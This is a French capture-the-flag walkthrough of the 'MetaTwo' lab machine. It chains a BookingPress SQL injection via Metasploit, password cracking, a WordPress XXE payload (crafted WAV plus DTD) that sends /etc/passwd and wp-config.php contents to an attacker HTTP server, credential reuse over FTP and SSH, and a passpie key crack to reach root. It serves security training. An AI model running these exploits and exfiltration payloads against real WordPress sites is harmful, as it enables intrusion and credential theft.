

# Metatwo guided mode

## nmap

```bash
$ sudo nmap -sC -sV -p- -T4 10.129.84.201
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-12 19:04 +0200
Nmap scan report for 10.129.84.201
Host is up (0.022s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 250.11 seconds
```

## hosts

```
{target_ip} metapress.htb
```

## wordpress

### version wp

```bash
$ curl -s http://metapress.htb/feed/ | grep -i "generator" 
	<generator>https://wordpress.org/?v=5.6.2</generator>

```

### version php 

```bash
$ curl -I http://metapress.htb  
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 12 Oct 2026 17:59:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.0.24
Set-Cookie: PHPSESSID=jppeu62kru0th7oah0li1fj97a; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Link: <http://metapress.htb/wp-json/>; rel="https://api.w.org/"
```

### wpscan plugins

``` bash
wpscan --update wpscan --url http://metapress.htb --api-token {TOKEN} --enumerate vp

 | [!] Title: BookingPress < 1.0.11 - Unauthenticated SQL Injection
 |     UUID: 388cd42d-b61a-42a4-8604-99b812db2357
 |     Fixed in: 1.0.11
 |     References:
 |      - https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0739
 |      - https://plugins.trac.wordpress.org/changeset/2684789

```
http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt


### msfconsole 

```bash
$ msfconsole -q

msf > search CVE-2022-0739

Matching Modules
================

   #  Full Name                                                Disclosure Date  Rank    Check  Name
   -  ---------                                                ---------------  ----    -----  ----
   0  auxiliary/gather/wp_bookingpress_category_services_sqli  2022-02-28       normal  Yes    Wordpress BookingPress bookingpress_front_get_category_services SQLi


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/gather/wp_bookingpress_category_services_sqli

```
```
use 0
info
options
set RHOSTS metapress.htb
set TARGETURI /events/
exploit
```

``` shell
msf auxiliary(gather/wp_bookingpress_category_services_sqli) > exploit
[*] Running module against 10.129.84.201
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. SQL injection test succeeded
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username  Email                  Hash
 --------  -----                  ----
 admin     admin@metapress.htb    $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
 manager   manager@metapress.htb  $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

```

## john

```bash
┌──(kali㉿kali)-[~/machines/metatwo]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt metatwo_hash                                                                                                   
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)     
1g 0:00:02:55 77.62% (ETA: 20:47:56) 0.005685g/s 63224p/s 63853c/s 63853C/s HECTOR6416094..HCB884
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session abortedkali

```

## XXE

```
 | [!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 |     UUID: cbbe6c17-b24e-4be4-8937-c78472a138b5
 |     Fixed in: 5.6.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/29378
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rv47-pc52-qrhh
 |      - https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/
 |      - https://hackerone.com/reports/1095645
 |      - https://www.youtube.com/watch?v=3NBxcmqCgt4

```

payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE
ANY[<!ENTITY % remote SYSTEM
'"'"'http://{my_ip}:7777/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' >
payload.wav
```

evil.dtd
```bash
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://{my_ip}:7777/?p=%file;'>" >
```

```bash
$ python3 -m http.server 7777
```




```bash
$ python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.84.201 - - [12/Oct/2026 22:14:33] "GET /evil.dtd HTTP/1.1" 200 -
10.129.84.201 - - [12/Oct/2026 22:14:33] "GET /?p=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwMDo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMToxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMjoxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDk6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzc2hkOng6MTA0OjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4Kam5lbHNvbjp4OjEwMDA6MTAwMDpqbmVsc29uLCwsOi9ob21lL2puZWxzb246L2Jpbi9iYXNoCnN5c3RlbWQtdGltZXN5bmM6eDo5OTk6OTk5OnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb246LzovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk4Ojk5ODpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMDU6MTExOk15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQpwcm9mdHBkOng6MTA2OjY1NTM0OjovcnVuL3Byb2Z0cGQ6L3Vzci9zYmluL25vbG9naW4KZnRwOng6MTA3OjY1NTM0Ojovc3J2L2Z0cDovdXNyL3NiaW4vbm9sb2dpbgo= HTTP/1.1" 200 -
```
On le colle dans un fichier, la je le nomme `decode`

```bash
$ cat decode| base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

On fait le meme principe pour le fichier `../wp-
config.php`

```php
$ cat wp-config.php| base64 -d
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```
Le fichier contient les logins **bdd** et **ftp**

```
DB_NAME : blog
DB_USER : blog
DB_PASSWORD : 635Aq@TdqrCwXFUZ
DB_HOST : localhost
```

```
FTP_USER : metapress.htb
FTP_PASS : 9NYS_ii@FyL_p5M2NvJ
FTP_HOST : ftp.metapress.htb
```


## FTP

```bash
ftp> pwd
Remote directory: /mailer


ftp> get send_email.php -
remote: send_email.php
229 Entering Extended Passive Mode (|||64235|)
150 Opening BINARY mode data connection for send_email.php (1126 bytes)
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}
226 Transfer complete
1126 bytes received in 00:00 (46.59 KiB/s)
```

```
Username : jnelson@metapress.htb
Password : Cb4_JmWM8zUZWMu@Ys
```

Le compte `jnelson` est le même que dans le `/etc/passwd`, on tente donc un **ssh** avec ce compte

## SSH

```bash
┌──(kali㉿kali)-[~/machines/metatwo]
└─$ ssh jnelson@metapress.htb                                                                            
The authenticity of host 'metapress.htb (10.129.228.95)' can't be established.
ED25519 key fingerprint is: SHA256:0PexEedxcuaYF8COLPS2yzCpWaxg8+gsT1BRIpx/OSY
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'metapress.htb' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jnelson@metapress.htb's password: 
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 25 12:51:26 2022 from 10.10.14.23
jnelson@meta2:~$
```

### flag user

```bash
jnelson@meta2:~$ ls
user.txt
jnelson@meta2:~$ cat user.txt 
6b4cd83d700e6f6e27af838b75cb7983
```

## passpie

```bash
jnelson@meta2:~/.passpie/ssh$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛

jnelson@meta2:~/.passpie/ssh$ ls -alh
total 16K
dr-xr-x--- 2 jnelson jnelson 4.0K Oct 25  2022 .
dr-xr-x--- 3 jnelson jnelson 4.0K Oct 25  2022 ..
-r-xr-x--- 1 jnelson jnelson  683 Oct 25  2022 jnelson.pass
-r-xr-x--- 1 jnelson jnelson  673 Oct 25  2022 root.pass

jnelson@meta2:~/.passpie$ ls -alh
total 24K
dr-xr-x--- 3 jnelson jnelson 4.0K Oct 25  2022 .
drwxr-xr-x 6 jnelson jnelson 4.0K Oct 13 09:27 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5.2K Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4.0K Oct 25  2022 ssh

```

On récupère la clé GPG .keys
```bash
┌──(kali㉿kali)-[~/machines/metatwo]
└─$ rsync -avP jnelson@metapress.htb:~/.passpie/.keys .
```

```bash
┌──(kali㉿kali)-[~/machines/metatwo]
└─$ gpg2john .keys > .keys_hash.txt

File .keys
Error: Ensure that the input file .keys contains a single private key only.
Error: No hash was generated for .keys, ensure that the input file contains a single private key only.

┌──(kali㉿kali)-[~/machines/metatwo]
└─$ vi .keys

┌──(kali㉿kali)-[~/machines/metatwo]
└─$ gpg2john .keys > .keys_hash.txt

File .keys
```

## john
```bash
┌──(kali㉿kali)-[~/machines/metatwo]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt .keys_hash.txt                                                                                                                  
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:00 DONE (2026-10-13 10:38) 1.587g/s 266.6p/s 266.6c/s 266.6C/s ginger..987654
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## paspie

https://passpie.readthedocs.io/en/latest/getting_started.html#fullnames-queries

``` bash
jnelson@meta2:~$ passpie export pass_passpie
Passphrase: 
jnelson@meta2:~$ cat pass_passpie 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0

```
```
root
p7qfAZt4_A1xo_0x
```


## flag root

```bash
jnelson@meta2:~$ su - root
Password: 
root@meta2:~# cat root.txt
99249d80874974ef941956e0b67bafec
```


## reference

### WP SQL INJ
References:
  https://github.com/destr4ct/CVE-2022-0739
  https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357
  https://nvd.nist.gov/vuln/detail/CVE-2022-0739

### WP XXE
References:
  https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
  https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447
  https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
  https://core.trac.wordpress.org/changeset/29378
  https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
  https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rv47-pc52-qrhh
  https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/
  https://hackerone.com/reports/1095645
  https://www.youtube.com/watch?v=3NBxcmqCgt4